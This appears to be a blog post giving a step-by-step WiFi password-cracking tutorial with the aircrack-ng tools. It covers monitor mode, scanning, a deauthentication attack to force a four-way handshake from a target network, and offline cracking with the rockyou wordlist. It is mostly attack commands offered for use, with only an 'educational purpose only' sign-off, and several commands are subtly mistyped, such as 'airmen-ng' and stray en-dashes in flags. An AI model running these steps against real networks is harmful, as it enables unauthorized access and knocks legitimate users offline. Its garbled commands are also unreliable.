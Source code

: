 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-12T12:22:23Z
slug: Hacking Wifi
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
ogImage: https://res.cloudinary.com/noezectz/v1663745737/astro-paper/astropaper-x-forestry-og_kqfwp0.png
description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is Alpha’s AWUS036H.


After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

iwconfig

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to Monitor Mode, use the following command.

sudo airmen-ng start wlan0 

Again, use the command mentioned below to verify the monitor mode.

iwconfig

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

sudo airodump-ng wlan0

It will display information about nearby WiFi Networks. Our intended interface is Alvish Bhaii. Then, copy the BSSID.

The Following command tells us how many devices are connected tothis Network interface.

sudo airodump-ng wlan0 -d <mac-address>

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the death attack.

sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0

In this attack, we save the handshake in a .pcap file. The next step is the death attack: We open another terminal and type the following command.

sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

What is a four-way handshake?

A four-way handshake is a message exchange between an access point and the client device.


Now, you see that it captures the handshake. Type in the ls command to see the file.


In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt

You see that the key is found and cracked Successfully.

Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
